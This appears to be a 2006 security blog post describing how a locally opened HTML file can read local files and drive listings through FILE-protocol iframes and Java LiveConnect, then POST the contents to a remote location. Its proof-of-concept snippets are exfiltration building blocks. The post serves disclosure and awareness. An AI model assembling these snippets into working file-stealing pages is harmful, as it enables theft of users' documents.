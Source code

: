 ```yaml
---
title: Web Pages from Hell
author: petko-d-petkov
date: Mon, 11 Sep 2006 21:23:31 GMT
template: post.jade
---
```


You open a html file but you are not aware. You check the content but you don't know.

> I have just received the report for the third quoter of 2006 by email. My boss says that from now on we will use simple html pages because it is more accessible. Well, I don't know much about accessibility and I don't really care. I click on the attachment. The html document stores itself no the desktop. Double click and I have it open in Firefox.

What happens next is without any doubt a security breach. Anonymous attacker has just compromised and stole important corporate documents.

Unfortunately, this story is far from being far-fetched. This is something that can happen to your organization and the technology required is here today and ready for use. Concerning, isn't it? That's the reason why I went a bit deeper into this topic, figuring out various attack vectors and composing a simple toolkit to mitigate the risk. The following post reveals some of my findings and provides disjointed source code as a proof of concept.

In this example we need Java, a single iframe, a form and a remote storage point. The iframe is used as data retrieval mechanism for html, xml and text files. Java is used as data retrieval mechanism for binary files. The form is used to send the data back to a remote storage point in a form of multiple POST request.

The first stage is to compose an iframe. You must be aware that iframes are areas where content can be rendered. This content is retrieved by a URL. The URL describes the location and also the protocol in use, which can be `HTTP, HTTPS, FTP, FILE` and maybe something else depending of your browser. Obviously `FILE` sounds quite interesting. This protocol allows us to look and browse through our system or open local files inside our browsers. Just entering `file:///C:/` in your browser window should open `C:\` drive.

It is said that iframes are secured in a way that different domains cannot access each other content. This restriction is applied with the same origin model. In simple terms, if a page from `a.com` creates hidden iframe of `b.com`, no communication is allowed between them. This means that` a.com` cannot read what is inside `b.com` iframe.

In a way this is secure, however the `FILE` protocol is excluded from this rule simply because file paths don't have domains. So, an html file loaded from `file:///C:/file.html` can open an iframe of `file:///D:/file.html` and read its content. Of course, it must be noted that no external resource can read files from the local system because the same origin model imply that the protocol must be the same in order to allow communication. This means that HTTP cannot communicate with FILE or FTP.

To cut the story short I will go into an example how all this theory can be used in practice.

A file on the file system can open any other file inside an iframe.

```html
<iframe src="file:///C:/test.txt"></iframe>
```

In order to retrieve the content of this file we have to wait for the iframe to load and then just grab its document body.

```html
<iframe src="file:///C:/test.txt" onload="getContent(this)"></iframe>
<script>
  function getContent(iframe) {
    var content = '';
    if (iframe.contentDocument) {
      content = iframe.contentDocument.body.innerHTML; 
    } else if (iframe.contentWindow) {
      content = iframe.contentWindow.document.body.innerHTML;
    } else if (iframe.document) {
      content = iframe.document.body.innerHTML;
    }
    alert(content);
  }
</script>
```

The snippet above will display the content of an iframe which currently holds `file:///C:/test.txt`.

Opening files is not fun although probably you already can see some of the potentials. Let's try something more funky by replacing `file:///C:/test.txt` with `file:///C:/.` This should open `C:\` drive.

```html
<iframe src="file:///C:/" onload="getContent(this)"></iframe>
<script>
  function getContent(iframe) {
    var content = '';
    if (iframe.contentDocument) {
      content = iframe.contentDocument.body.innerHTML; 
    } else if (iframe.contentWindow) {
      content = iframe.contentWindow.document.body.innerHTML;
    } else if (iframe.document) {
      content = iframe.document.body.innerHTML;
    }
    alert(content);
  }
</script>
```

Potentially, the snippet above has just listed your `C:\` drive into an alert box. Of course this will work on most browsers but not in IE. IE is secure in this respect, however just keep in mind that IE supports ActiveX which makes the entire process a lot more simpler in some situations.

The next step every attacker probably will do is to create a recursive function which lists directories and upload interesting content on a remote server. If you try to do this you will see that the process is not as trivial as it seams because as soon as your iframe tries to open a binary file, your browser will prompt you with a download box. Of course, the attacker can try to avoid doc, xls and other types of binary files but today this is where all interesting corporate information is stored into.

So, in order to retrieve a binary file another technology needs to be used: Java and more precisely LiveConnect which is supported by Firefox and Opera. Let's see how our binary retrieving code looks like:

```html
<script>
  function liveJaveGetContent(URL) {
    var result = '';
    var destination = new java.net.URL(URL);
    var input = java.io.DataInputStream(destination.openStream());

    while ((line = input.readLine()) != null) {
      result += line;
      result += java.lang.System.getProperty('line.separator');
    }

    input.close();
    return result;
  }
</script>
```

I must admit that the code above is not as generic as it can be but... well, no time.

So, the function above can read binary files and return them in form of a string. This string is quite valuable for the attackers but first it has to be send to a remote location. This can be achieved in many ways, however my favorite one requires something as simple as a html form.

```html
<form name="sendContentForm" method="post" action="http://path/to/remote/location">
  <textarea name="content"></textarea>
  <input type="submit"/>
</form>
```

This is it. When we call `sendContentFrom.submit()` the data will be transfered from locahost to the remote location. Of course this form wont be able to transport too much content. For that reason we have to do some partitioning and send the data in blocks.I will let this to you to play around.

The conclusion is that you should not trust anything that you open in your browser, unless you completely disable JavaScrpt, Java and Flash. The next time you open a simple html page from your desktop, keep in mind that you may have opened a security hole in your network too. While previewing the document the attacker is able to enumerate the internal infrastructure of your organization by listing mounted shares. These share may contain documents, tables and databases that might be valuable to some individuals and organizations.

_BTW, just closing the browser window wont stop this attack continuing in the background. Many browsers can be made to stay alive even after you click on the X button. Maybe I will cover this some other time._
